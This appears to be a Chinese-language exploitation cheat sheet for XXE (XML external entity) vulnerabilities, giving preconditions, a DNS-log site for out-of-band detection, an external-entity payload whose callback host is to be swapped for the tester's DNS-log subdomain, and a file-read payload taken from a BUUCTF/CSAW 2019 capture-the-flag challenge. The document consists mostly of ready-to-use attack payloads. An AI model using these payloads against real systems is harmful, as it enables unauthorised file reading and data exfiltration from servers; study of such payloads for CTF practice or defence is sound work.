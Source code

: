 # XXE漏洞利用

## 1、漏洞利用前提

1. url是 .ashx后缀
2. 响应体是xml

## 2、在线测试网站

```
http://www.dnslog.cn/
```

## 3、发包格式

```
<?xml version="1.0" ?>
<!DOCTYPE r [
// <!ELEMENT r ANY >
<!ENTITY sp SYSTEM "http://127.0.0.1:80">
]>
<r>&sp;</r>

//把http://127.0.0.1:80替换成你的Get SubDomain
```

## 4、任意文件读取

* 原理就是构造一个可以访问系统默认文件hosts的Payload，然后看看响应，看他说缺啥补充啥。如果是回显型XXE就会将配置文件的信息打印出来

```
BUUCTF:[CSAWQual 2019]Web_Unagi

<?xml version='1.0'?>
<!DOCTYPE users [
<!ENTITY xxe SYSTEM "file:///flag" >]>
<users>
    <user>
        <username>bob</username>
        <password>passwd2</password>
        <name> Bob</name>
        <email>bob@fakesite.com</email>  
        <group>CSAW2019</group>
        <intro>&xxe;</intro>
    </user>
</users>
```

